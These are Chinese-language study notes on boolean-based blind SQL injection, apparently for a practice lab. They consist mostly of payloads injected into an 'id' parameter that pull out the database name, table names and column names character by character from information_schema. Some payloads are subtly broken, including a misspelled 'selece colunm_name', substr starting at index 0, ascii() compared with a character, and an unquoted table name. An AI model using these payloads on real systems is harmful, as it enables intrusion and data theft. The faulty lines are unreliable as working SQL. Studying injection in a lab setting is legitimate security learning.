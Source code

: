 ### 基于布尔的盲注

只有显示或不显示，比如：

>   id=1' and left(version(),1)=5--+
>
>   id=1' and length(database())=8--+

以上判断都是正确的

 1.获取数据库名：

先获取数据库长度后...

二分......

猜测数据库第一位：

>   id=1' and left(database(),1)='s'--+

猜测第二位：

判断第二位是否大于a：

>   id=1' and left(database(),2)>'sa'--+

后续同样......

也可以：


>id=1' and ascii(substr(database(),0,1))='s'--+

2.获取表名：substr()，ascii()

获取表的长度：

>   id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0--+

获取第一个表的第一位：

>   id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+

获取第一个表的第二位：

>   id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=108--+

第一个表获取完了，那第二个表呢？？

limit 1,1

3.获取列名：

获取列长度

>   id=2' and (select length(column_name) from information_schema.columns where table_name=emails limit 0,1)=1--+



>   id=1' and ascii(substr((selece colunm_name from information_schema.columns where table_name=emails limit 0,1),0,1))='a'--+
